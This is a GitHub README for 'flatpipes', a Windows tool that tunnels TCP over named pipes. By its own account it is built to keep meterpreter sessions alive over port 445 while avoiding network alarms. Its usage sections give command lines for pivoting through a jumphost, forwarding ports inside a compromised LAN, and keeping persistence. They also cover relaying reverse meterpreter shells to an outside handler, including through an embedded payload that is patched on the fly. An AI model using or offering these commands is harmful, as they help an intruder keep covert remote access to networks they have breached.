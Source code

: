# flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

<br>
#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
> *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001* 

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
> *flatpipes.exe pserver sclient pipename . y.y.y.y 22*

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
> *flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22*

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 22*

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
> *flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22*

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
> *flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321*

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter*

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
> *flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321*

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter*
> *flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345*
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall
---

#### TODO
* Include a meterpreter bind/reverse stager - Done
* "Monkey patch" the above stager to change port on the fly - Done
* Custom payload option
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. It is not very well-written, comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
